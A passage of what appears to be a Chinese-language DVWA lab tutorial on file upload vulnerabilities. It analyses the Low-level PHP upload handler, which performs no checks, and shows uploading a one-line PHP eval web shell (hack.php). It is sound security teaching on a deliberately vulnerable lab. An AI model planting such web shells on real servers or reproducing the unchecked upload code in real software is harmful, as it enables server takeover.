 
## File Upload

File Upload，即文件上传漏洞，通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的webshell权限，因此文件上传漏洞带来的危害常常是毁灭性的，Apache、Tomcat、Nginx等都曝出过文件上传漏洞。

![image]({path}/29.png)


下面对四种级别的代码进行分析。

Low

服务器端核心代码


```
<?php 

if( isset( $_POST[ 'Upload' ] ) ) { 
    // Where are we going to be writing to? 
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/"; 
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] ); 

    // Can we move the file to the upload folder? 
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) { 
        // No 
        echo '<pre>Your image was not uploaded.</pre>'; 
    } 
    else { 
        // Yes! 
        echo "<pre>{$target_path} succesfully uploaded!</pre>"; 
    } 
} 

?> 
basename(path,suffix)
```


函数返回路径中的文件名部分，如果可选参数suffix为空，则返回的文件名包含后缀名，反之不包含后缀名。

可以看到，服务器对上传文件的类型、内容没有做任何的检查、过滤，存在明显的文件上传漏洞，生成上传路径后，服务器会检查是否上传成功并返回相应提示信息。

**漏洞利用**

文件上传漏洞的利用是有限制条件的，首先当然是要能够成功上传木马文件，其次上传文件必须能够被执行，最后就是上传文件的路径必须可知。不幸的是，这里三个条件全都满足。

上传文件hack.php（一句话木马）


```
<?php @eval($_POST[value]);?>

```
上传成功，并且返回了上传路径


![image]({path}/30.png)
